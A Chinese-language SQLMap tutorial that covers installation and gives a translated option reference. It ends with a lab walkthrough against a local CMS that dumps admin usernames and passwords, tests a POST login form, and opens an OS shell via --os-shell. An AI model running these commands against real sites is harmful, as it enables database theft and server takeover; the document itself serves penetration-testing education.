







[SQLMap](https://github.com/sqlmapproject/sqlmap) 是一款专注于SQLi 的工具，堪称神器。SQLmap 基于Python 语言编写的命令行工具，集成在Kali 中。

## 0x00：安装与更新

Kali 自带SQLMap 

```bash
sudo apt-get update
sudo apt-get install sqlmap  如果安装了，那么就是更新
```

源码安装

```bash
git clone https://github.com/sqlmapproject/sqlmap.git   
```

## 0x01：参数速查

#### 用法

```python
python sqlmap.py [选项]
```

#### 选项

```python
  -h, --help            显示基本帮助信息并退出
  -hh                   显示高级帮助信息并退出
  --version             显示程序版本信息并退出
  -v VERBOSE            输出信息详细程度级别：0-6（默认为 1）
```


#### 目标

```python
  
    至少提供一个以下选项以指定目标

    -u URL, --url=URL   目标 URL（例如："http://www.site.com/vuln.php?id=1"）
    -d DIRECT           可直接连接数据库的地址字符串
    -l LOGFILE          从 Burp 或 WebScarab 代理的日志文件中解析目标地址
    -m BULKFILE         从文本文件中获取批量目标
    -r REQUESTFILE      从文件中读取 HTTP 请求
    -g GOOGLEDORK       使用 Google dork 结果作为目标
    -c CONFIGFILE       从 INI 配置文件中加载选项
```


####  请求

```python
    以下选项可以指定连接目标地址的方式

    -A AGENT, --user..  设置 HTTP User-Agent 头部值
    -H HEADER, --hea..  设置额外的 HTTP 头参数（例如："X-Forwarded-For: 127.0.0.1"）
    --method=METHOD     强制使用提供的 HTTP 方法（例如：PUT）
    --data=DATA         使用 POST 发送数据串（例如："id=1"）
    --param-del=PARA..  设置参数值分隔符（例如：&）
    --cookie=COOKIE     指定 HTTP Cookie（例如："PHPSESSID=a8d127e.."）
    --cookie-del=COO..  设置 cookie 分隔符（例如：;）
    --live-cookies=L..  指定 Live cookies 文件以便加载最新的 Cookies 值
    --load-cookies=L..  指定以 Netscape/wget 格式存放 cookies 的文件
    --drop-set-cookie   忽略 HTTP 响应中的 Set-Cookie 参数
    --mobile            使用 HTTP User-Agent 模仿智能手机
    --random-agent      使用随机的 HTTP User-Agent
    --host=HOST         指定 HTTP Host
    --referer=REFERER   指定 HTTP Referer
    --headers=HEADERS   设置额外的 HTTP 头参数（例如："Accept-Language: fr\nETag: 123"）
    --auth-type=AUTH..  HTTP 认证方式（Basic，Digest，NTLM 或 PKI）
    --auth-cred=AUTH..  HTTP 认证凭证（username:password）
    --auth-file=AUTH..  HTTP 认证 PEM 证书/私钥文件
    --ignore-code=IG..  忽略（有问题的）HTTP 错误码（例如：401）
    --ignore-proxy      忽略系统默认代理设置
    --ignore-redirects  忽略重定向尝试
    --ignore-timeouts   忽略连接超时
    --proxy=PROXY       使用代理连接目标 URL
    --proxy-cred=PRO..  使用代理进行认证（username:password）
    --proxy-file=PRO..  从文件中加载代理列表
    --proxy-freq=PRO..  通过给定列表中的不同代理依次发出请求
    --tor               使用 Tor 匿名网络
    --tor-port=TORPORT  设置 Tor 代理端口代替默认端口
    --tor-type=TORTYPE  设置 Tor 代理方式（HTTP，SOCKS4 或 SOCKS5（默认））
    --check-tor         检查是否正确使用了 Tor
    --delay=DELAY       设置每个 HTTP 请求的延迟秒数
    --timeout=TIMEOUT   设置连接响应的有效秒数（默认为 30）
    --retries=RETRIES   连接超时时重试次数（默认为 3）
    --randomize=RPARAM  随机更改给定的参数值
    --safe-url=SAFEURL  测试过程中可频繁访问且合法的 URL 地址（译者注：
                        有些网站在你连续多次访问错误地址时会关闭会话连接，
                        后面的“请求”小节有详细说明）
    --safe-post=SAFE..  使用 POST 方法发送合法的数据
    --safe-req=SAFER..  从文件中加载合法的 HTTP 请求
    --safe-freq=SAFE..  在访问给定的合法 URL 之间穿插发送测试请求
    --skip-urlencode    不对 payload 数据进行 URL 编码
    --csrf-token=CSR..  设置网站用来反 CSRF 攻击的 token
    --csrf-url=CSRFURL  指定可提取防 CSRF 攻击 token 的 URL
    --csrf-method=CS..  指定访问防 CSRF token 页面时使用的 HTTP 方法
    --csrf-retries=C..  指定获取防 CSRF token 的重试次数 （默认为 0）
    --force-ssl         强制使用 SSL/HTTPS
    --chunked           使用 HTTP 分块传输编码（POST）请求
    --hpp               使用 HTTP 参数污染攻击
    --eval=EVALCODE     在发起请求前执行给定的 Python 代码（例如：
                        "import hashlib;id2=hashlib.md5(id).hexdigest()"）

```


#### 优化

```python
	以下选项用于优化 sqlmap 性能

    -o                  开启所有优化开关
    --predict-output    预测常用请求的输出
    --keep-alive        使用持久的 HTTP(S) 连接
    --null-connection   仅获取页面大小而非实际的 HTTP 响应
    --threads=THREADS   设置 HTTP(S) 请求并发数最大值（默认为 1）
```


#### 注入

```python
    以下选项用于指定要测试的参数，
    提供自定义注入 payloads 和篡改参数的脚本

    -p TESTPARAMETER    指定需要测试的参数
    --skip=SKIP         指定要跳过的参数
    --skip-static       指定跳过非动态参数
    --param-exclude=..  用正则表达式排除参数（例如："ses"）
    --param-filter=P..  通过位置过滤可测试参数（例如："POST"）
    --dbms=DBMS         指定后端 DBMS（Database Management System，
                        数据库管理系统）类型（例如：MySQL）
    --dbms-cred=DBMS..  DBMS 认证凭据（username:password）
    --os=OS             指定后端 DBMS 的操作系统类型
    --invalid-bignum    将无效值设置为大数
    --invalid-logical   对无效值使用逻辑运算
    --invalid-string    对无效值使用随机字符串
    --no-cast           关闭 payload 构造机制
    --no-escape         关闭字符串转义机制
    --prefix=PREFIX     注入 payload 的前缀字符串
    --suffix=SUFFIX     注入 payload 的后缀字符串
    --tamper=TAMPER     用给定脚本修改注入数据
```


#### 检测

```python
  	以下选项用于自定义检测方式

    --level=LEVEL       设置测试等级（1-5，默认为 1）
    --risk=RISK         设置测试风险等级（1-3，默认为 1）
    --string=STRING     用于确定查询结果为真时的字符串
    --not-string=NOT..  用于确定查询结果为假时的字符串
    --regexp=REGEXP     用于确定查询结果为真时的正则表达式
    --code=CODE         用于确定查询结果为真时的 HTTP 状态码
    --smart             只在使用启发式检测时才进行彻底的测试
    --text-only         只根据页面文本内容对比页面
    --titles            只根据页面标题对比页面
```

#### 技术

```python
   以下选项用于调整特定 SQL 注入技术的测试方法

    --technique=TECH..  使用的 SQL 注入技术（默认为“BEUSTQ”，译者注：
                        B: Boolean-based blind SQL injection（布尔型盲注）
                        E: Error-based SQL injection（报错型注入）
                        U: UNION query SQL injection（联合查询注入）
                        S: Stacked queries SQL injection（堆叠查询注入）
                        T: Time-based blind SQL injection（时间型盲注）
                        Q: inline Query injection（内联查询注入）
    --time-sec=TIMESEC  延迟 DBMS 的响应秒数（默认为 5）
    --union-cols=UCOLS  设置联合查询注入测试的列数目范围
    --union-char=UCHAR  用于暴力猜解列数的字符
    --union-from=UFROM  设置联合查询注入 FROM 处用到的表
    --dns-domain=DNS..  设置用于 DNS 渗出攻击的域名（译者注：
                        推荐阅读《在SQL注入中使用DNS获取数据》
                        http://cb.drops.wiki/drops/tips-5283.html，
                        在后面的“技术”小节中也有相应解释）
    --second-url=SEC..  设置二阶响应的结果显示页面的 URL（译者注：
                        该选项用于 SQL 二阶注入）
    --second-req=SEC..  从文件读取 HTTP 二阶请求

```

#### 指纹识别

```python
 -f, --fingerprint   执行广泛的 DBMS 版本指纹识别
```

#### 枚举

```python
  以下选项用于获取后端 DBMS 的信息，结构和数据表中的数据

    -a, --all           获取所有信息、数据
    -b, --banner        获取 DBMS banner
    --current-user      获取 DBMS 当前用户
    --current-db        获取 DBMS 当前数据库
    --hostname          获取 DBMS 服务器的主机名
    --is-dba            探测 DBMS 当前用户是否为 DBA（数据库管理员）
    --users             枚举出 DBMS 所有用户
    --passwords         枚举出 DBMS 所有用户的密码哈希
    --privileges        枚举出 DBMS 所有用户特权级
    --roles             枚举出 DBMS 所有用户角色
    --dbs               枚举出 DBMS 所有数据库
    --tables            枚举出 DBMS 数据库中的所有表
    --columns           枚举出 DBMS 表中的所有列
    --schema            枚举出 DBMS 所有模式
    --count             获取数据表数目
    --dump              导出 DBMS 数据库表项
    --dump-all          导出所有 DBMS 数据库表项
    --search            搜索列，表和/或数据库名
    --comments          枚举数据时检查 DBMS 注释
    --statements        获取 DBMS 正在执行的 SQL 语句
    -D DB               指定要枚举的 DBMS 数据库
    -T TBL              指定要枚举的 DBMS 数据表
    -C COL              指定要枚举的 DBMS 数据列
    -X EXCLUDE          指定不枚举的 DBMS 标识符
    -U USER             指定枚举的 DBMS 用户
    --exclude-sysdbs    枚举所有数据表时，指定排除特定系统数据库
    --pivot-column=P..  指定主列
    --where=DUMPWHERE   在转储表时使用 WHERE 条件语句
    --start=LIMITSTART  指定要导出的数据表条目开始行数
    --stop=LIMITSTOP    指定要导出的数据表条目结束行数
    --first=FIRSTCHAR   指定获取返回查询结果的开始字符位
    --last=LASTCHAR     指定获取返回查询结果的结束字符位
    --sql-query=SQLQ..  指定要执行的 SQL 语句
    --sql-shell         调出交互式 SQL shell
    --sql-file=SQLFILE  执行文件中的 SQL 语句
```

#### 暴力破解

```python
	以下选项用于暴力破解测试

    --common-tables     检测常见的表名是否存在
    --common-columns    检测常用的列名是否存在
    --common-files      检测普通文件是否存在

```

#### 用户自定义函数注入

```python
	以下选项用于创建用户自定义函数

    --udf-inject        注入用户自定义函数
    --shared-lib=SHLIB  共享库的本地路径
```

#### 访问文件系统

```python
	以下选项用于访问后端 DBMS 的底层文件系统

    --file-read=FILE..  读取后端 DBMS 文件系统中的文件
    --file-write=FIL..  写入到后端 DBMS 文件系统中的文件
    --file-dest=FILE..  使用绝对路径写入到后端 DBMS 中的文件

```

####  访问操作系统

```python
	以下选项用于访问后端 DBMS 的底层操作系统

    --os-cmd=OSCMD      执行操作系统命令
    --os-shell          调出交互式操作系统 shell
    --os-pwn            调出 OOB shell，Meterpreter 或 VNC
    --os-smbrelay       一键调出 OOB shell，Meterpreter 或 VNC
    --os-bof            利用存储过程的缓冲区溢出
    --priv-esc          数据库进程用户提权
    --msf-path=MSFPATH  Metasploit 框架的本地安装路径
    --tmp-path=TMPPATH  远程临时文件目录的绝对路径
```

#### 访问 Windows 注册表

```python
	以下选项用于访问后端 DBMS 的 Windows 注册表

    --reg-read          读取一个 Windows 注册表键值
    --reg-add           写入一个 Windows 注册表键值数据
    --reg-del           删除一个 Windows 注册表键值
    --reg-key=REGKEY    指定 Windows 注册表键
    --reg-value=REGVAL  指定 Windows 注册表键值
    --reg-data=REGDATA  指定 Windows 注册表键值数据
    --reg-type=REGTYPE  指定 Windows 注册表键值类型
```

#### 通用选项

```python
以下选项用于设置通用的参数

    -s SESSIONFILE      从文件（.sqlite）中读入会话信息
    -t TRAFFICFILE      保存所有 HTTP 流量记录到指定文本文件
    --answers=ANSWERS   预设回答（例如："quit=N,follow=N"）
    --base64=BASE64P..  表明参数包含 Base64 编码的数据
    --base64-safe       使用 URL 与文件名安全的 Base64 字母表（RFC 4648）
    --batch             从不询问用户输入，使用默认配置
    --binary-fields=..  具有二进制值的结果字段（例如："digest"）
    --check-internet    在访问目标之前检查是否正常连接互联网
    --cleanup           清理 DBMS 中特定的 sqlmap UDF 与数据表
    --crawl=CRAWLDEPTH  从目标 URL 开始爬取网站
    --crawl-exclude=..  用正则表达式筛选爬取的页面（例如："logout"）
    --csv-del=CSVDEL    指定输出到 CVS 文件时使用的分隔符（默认为“,”）
    --charset=CHARSET   指定 SQL 盲注字符集（例如："0123456789abcdef"）
    --dump-format=DU..  导出数据的格式（CSV（默认），HTML 或 SQLITE）
    --encoding=ENCOD..  指定获取数据时使用的字符编码（例如：GBK）
    --eta               显示每个结果输出的预计到达时间
    --flush-session     清空当前目标的会话文件
    --forms             解析并测试目标 URL 的表单
    --fresh-queries     忽略存储在会话文件中的查询结果
    --gpage=GOOGLEPAGE  指定所用 Google dork 结果的页码
    --har=HARFILE       将所有 HTTP 流量记录到一个 HAR 文件中
    --hex               获取数据时使用 hex 转换
    --output-dir=OUT..  自定义输出目录路径
    --parse-errors      从响应中解析并显示 DBMS 错误信息
    --preprocess=PRE..  使用给定脚本做前处理（请求）
    --postprocess=PO..  使用给定脚本做后处理（响应）
    --repair            重新导出具有未知字符的数据（?）
    --save=SAVECONFIG   将选项设置保存到一个 INI 配置文件
    --scope=SCOPE       用正则表达式过滤目标
    --skip-heuristics   不对 SQLi/XSS 漏洞进行启发式检测
    --skip-waf          不对 WAF/IPS 进行启发式检测
    --table-prefix=T..  指定临时数据表名前（默认："sqlmap"）
    --test-filter=TE..  根据 payloads 和/或标题（例如：ROW）选择测试
    --test-skip=TEST..  根据 payloads 和/或标题（例如：BENCHMARK）跳过部分测试
    --web-root=WEBROOT  指定 Web 服务器根目录（例如："/var/www"）
    
```


#### 杂项

```python
 以下选项不属于前文的任何类别

    -z MNEMONICS        使用短助记符（例如：“flu,bat,ban,tec=EU”）
    --alert=ALERT       在找到 SQL 注入时运行 OS 命令
    --beep              在问题提示或在发现 SQL 注入/XSS/FI 时发出提示音
    --dependencies      检查 sqlmap 缺少（可选）的依赖
    --disable-coloring  关闭彩色控制台输出
    --offline           在离线模式下工作（仅使用会话数据）
    --purge             安全删除 sqlmap data 目录所有内容
    --results-file=R..  指定多目标模式下的 CSV 结果输出路径
    --shell             调出交互式 sqlmap shell
    --tmp-dir=TMPDIR    指定用于存储临时文件的本地目录
    --unstable          为不稳定连接调整选项
    --update            更新 sqlmap
    --wizard            适合初级用户的向导界面
```


## 0x02：简单实操

利用sqlmap 注入得到cms 网站管理员账密

```bash
注入点：http://127.0.0.1/cms/show.php?id=33

python sqlmap.py  -u "http://127.0.0.1/cms/show.php?id=33" 
```



```sql
python sqlmap.py -u "http://127.0.0.1/cms/show.php?id=33" --dbs --batch
```



```sql
python sqlmap.py -u "http://127.0.0.1/cms/show.php?id=33" --current-db 
```


```sql
python sqlmap.py -u "http://127.0.0.1/cms/show.php?id=33" -D "cms" --tables
```




```sql
python sqlmap.py -u "http://127.0.0.1/cms/show.php?id=33" -D "cms" -T "cms_users" --columns

```



```sql
python sqlmap.py -u "http://127.0.0.1/cms/show.php?id=33" -D "cms" -T "cms_users" -C "username,password" --dump
```


#### POST注入

```sql
sqlmap -r  post数据包的文件
```

以cms这个靶场环境为例，http://127.0.0.1/cms/admin/login.php


发送post请求，bp抓包



选择一个位置保存


然后使用sqlmap判断是否存在注入点

```python
python sqlmap.py -r C:\\Users\zs\\Documents\\1.txt
```


#### GetShell

- 受到secure_file_priv 选项的限制

- 目标系统Web 根目录的绝对路径

- 目录权限

```sql
1	sqlmap -u "http://127.0.0.1/cms/show.php?id=32" --os-shell
```





